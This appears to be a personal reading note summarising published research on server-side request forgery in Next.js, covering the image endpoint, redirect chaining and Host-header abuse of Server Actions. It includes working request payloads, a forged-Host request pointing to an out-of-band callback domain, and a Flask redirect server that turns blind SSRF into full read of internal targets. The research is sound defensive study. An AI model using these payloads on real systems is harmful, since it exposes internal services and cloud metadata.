 ```yaml
---
author: assetnote.io
aliases:
  - Digging for SSRF in NextJS Apps
tags:
  - readwise/articles
url: https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps?__readwiseLocation=
date: 2025-04-24
summary: NextJS websites can have misconfigurations, like a vulnerability in the _next/image endpoint, allowing for SSRF attacks. By manipulating the remotePatterns in the next.config.js file, attackers can exploit blind SSRF vulnerabilities. Server Actions in NextJS also pose risks, as a forged Host header can lead to SSRF attacks when fetching responses.
---
```

# Digging for SSRF in NextJS Apps

## SSRF in \_next/image

```sh
https://example.com/_next/image?url=https://localhost:2345/api/v1/x&w=256&q=75
```

If the upstream response is a valid image, it will be passed to the user. There are a couple of rare conditions that this can be escalated further:

- If the version of NextJS is old, or dangerouslyAllowSVG is set to true, you can link to an SVG url hosted on your domain, leading to XSS.

- If the version of NextJS is old, or dangerouslyAllowSVG is set to true, you can leak the full content of XML responses via SSRF. This is because NextJS uses sniffing to determine the content type of the response even if a Content-Type header is provided, and to check for SVG NextJS simply checks the response starts with `<?xml`.

- If any internal host does not respond with a Content-Type, the full response will also be leaked. This is unlikely but sometimes happens with misconfigured proxies or the like.

A more common scenario is that some specific domains are whitelisted. However, the image renderer follows redirects. Thus if you were to find any open redirect on a whitelisted domain, you can turn this into a blind SSRF. For example, suppose third-party.com was whitelisted and you found an open redirect at third-party.com/logout?url=foo. You could then hit an internal server with SSRF with a request like:

```sh
https://example.com/_next/image?url=https://third-party.com/logout%3furl%3Dhttps%3A%2F%2Flocalhost%3A2345%2Fapi%2Fv1%2Fx&w=256&q=75
```

## SSRF in Server Actions

NextJS provides a fully featured server side framework with Server Actions. This allows writing JS code that will be executed asynchronously on the server when called.

TL;DR: To be vulnerable to this SSRF, we require that:
- A server action is defined;
- The server action redirects to a URL starting with `/`;
- We are able to specify a custom Host header while accessing the application.

```http
POST /x HTTP/1.1
Host: kwk4ufof0q3hdki5e46mpchscjia69uy.oastify.com
Content-Length: 4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Next-Action: 15531bfa07ff11369239544516d26edbc537ff9c
Connection: close

{}
```

### From Blind SSRF to Full Read

We have a working blind [Server Side Request Forgery (SSRF)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Server%20Side%20Request%20Forgery%20(SSRF).md)! However, we can do better. Let's revisit the logic of exactly what requests #NextJS makes: [](https://read.readwise.io/read/01jkdyhesasj501zt0k7ahmmvb)

The logic is as follows: 
- The server first does a preflight HEAD request to the URL.
- If the preflight returns a `Content-Type` header of `RSC_CONTENT_TYPE_HEADER`, which is `text/x-component`, then NextJS makes a GET request to the same URL.
- The content of that GET request is then returned in the response.

Of course, it's unlikely that any of our SSRF targets (like cloud metadata endpoints) would return that content type, so what can be done? We can satisfy these checks and turn our SSRF into a full read as follows: 
- Set up a server that takes requests on **any path**.
- On any HEAD request, return a 200 with `Content-Type: text/x-component`.
- On a GET request, return a 302 to our intended SSRF target (such as `metadata.internal` or the like)
- When NextJS fetches from our server, it will satisfy the preflight check on our HEAD request, but will follow the redirect on GET, giving us a full read SSRF! [](https://read.readwise.io/read/01jkdyhzr17cef32mdgjhezjw9)

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('https://example.com')
```

